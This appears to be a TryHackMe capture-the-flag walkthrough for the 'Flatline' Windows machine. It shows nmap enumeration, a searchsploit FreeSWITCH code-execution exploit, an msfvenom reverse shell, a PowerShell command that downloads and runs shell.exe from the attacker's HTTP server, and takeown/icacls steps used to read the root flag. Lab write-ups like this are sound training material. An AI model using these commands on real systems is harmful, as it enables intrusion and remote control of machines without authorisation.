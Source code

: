 # Flatline Walkthrough
## Description

What are the flags?

  

This machine may be slower than normal to boot up and carry out operations.  

What is the user.txt flag?  


What is the root.txt flag?

## Enumeration

Make sure to connect to THM by either connecting using the VPN or clicking on the "Start Attackbox" button.
Create a directory where we will start our enumeration process:
```bash
mkdir thm/flatline
```
Get the IP for the machine when starting it and store it in the variable `IP`:
```bash
export IP=<IP-ADDRESS>
```

Since this is a windows box with host discovery disabled, we will do the following:
```bash
nmap -sC -sV -vv -Pn $IP
```
![[Nmap scan.png]]
There is only one port that we can research to find a vulnerability and that is port 8021:
![[Interesting service on port 8021.png]]
Search either on Google or `searchsploit` for "freeswitch"
```bash
searchsploit freeswitch
```
This gives us two options, of which we will use the second one:
![[Searching for exploits of FreeSWITCH.png]]
Now using `searchsploit` we can copy the `windows/remote/47799.txt` into our directory used to enumerate the box (for instance in `thm/flatline`.

```bash
searchsploit -m /windows/remote/47799.txt
```
Now rename the file to `exploit.py` and change mode to execute:
```bash
mv 47799.txt exploit.py && chmod +x exploit.py
```
To use the exploit, you'll need to provide it with the IP of the target and also the command to run on Windows. For example:
```bash
python3 exploit.py $IP whoami
```
Which will output:
![[Running the exploit to and getting code execution.png]]

We will now create a reverse tcp shell to connect to the target. Run`ip a` and copy the `tun0` IP address (after `inet`) when connected to the TryHackMe VPN. Replace "ATTACK-IP" with what you copied.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACK-IP> LPORT=4444 -f exe > shell.exe
```
![[Creating paylod for reverse shell.png]]

We'll also need an `http` server running to upload our `.exe` file to the target so do this in a separate terminal tab:
```bash
python3 -m http.server
```

Now we can start our listener in another terminal tab.
```bash
nc -lvnp 4444
```

Last but not least, run the exploit with the appropriate set up. Make sure to change the IP to your own attacker IP address. 
```bash
python3 exploit.py 10.10.42.179 "powershell.exe Invoke-WebRequest -Uri http://10.2.104.41:8000/shell.exe -OutFile ./shell.exe && .\shell.exe"
```
![[Running python exploit with Powershell.png]]
Go back to the listener and you should see that you're connected to the target.

#TODO

Browse to `Nekrotic`'s Desktop and list out it's contents:
![[Printing out Desktop to find flags.png]]

We see both flags but will need to escalate privileges to view the `root.txt` flag. 

To get the `user.txt` flag do:
```bash
type user.txt
```
and to get the root flag do:
```
takeown /R /F *.*
```

![[Taking ownership of Desktop folder.png]]
#TODO
I'm not certain if we need to do this next step but it's worth a shot:
```bash
icacls "root".txt /q /c /t /grant Users:F
```
![[Modifying permissions on root flag.png]]

Now switch over to `powershell` so we can `cat` out our root flag.
```bash
powershell
```

NOTE: both `cat` in `powershell` and `type` in `cmd` will output the root flag:
![[Printing out root flag.png]]

Done. You have successfully completed this challenge.
